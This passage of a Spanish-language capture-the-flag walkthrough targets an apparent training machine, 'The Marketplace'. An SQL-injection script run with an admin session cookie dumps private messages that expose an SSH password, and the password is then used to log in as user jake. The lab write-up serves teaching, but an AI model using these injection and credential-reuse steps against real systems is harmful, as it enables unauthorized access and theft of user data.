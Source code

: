 ```bash
~$>./sqli.sh -c COOKIE_DEL_USUARIO_ADMINISTRADOR -e fields -f user_from,user_to,message_content -t messages -n 2
```

```bash
[+] Field [0]: 1:3:Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @<***CENSORED***>J 

[+] Field [1]: 1:4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace! 

[+] Field [2]: 1:4:Thank you for your report. We have reviewed the listing and found nothing that violates our rules.
```

Al hacer esto podemos ver que hay 4 mensajes de los cuales el único que nos interesa es el primero, aquí podemos ver una clave de ssh que el usuario 1 (system) le proporciona al usuario 3 (jake), el orden de los usuarios es el mismo que vimos cuando dumpeamos los usuarios con sus hashes

Probamos a conectarnos por ssh como el usuario jake para validar que la calve es valida

```bash
~$> ssh jake@[IP]
```

```bash
The authenticity of host '10.10.140.35 (10.10.140.35)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.140.35' (ECDSA) to the list of known hosts.
jake@10.10.140.35's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 17 23:08:12 UTC 2021

  System load:  0.0                Users logged in:                0
  Usage of /:   87.1% of 14.70GB   IP address for eth0:            10.10.140.35
  Memory usage: 28%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-636b40a4e2d6: 172.18.0.1
  Processes:    96

  => / is using 87.1% of 14.70GB


20 packages can be updated.
0 updates are security updates.


jake@the-marketplace:~$
```
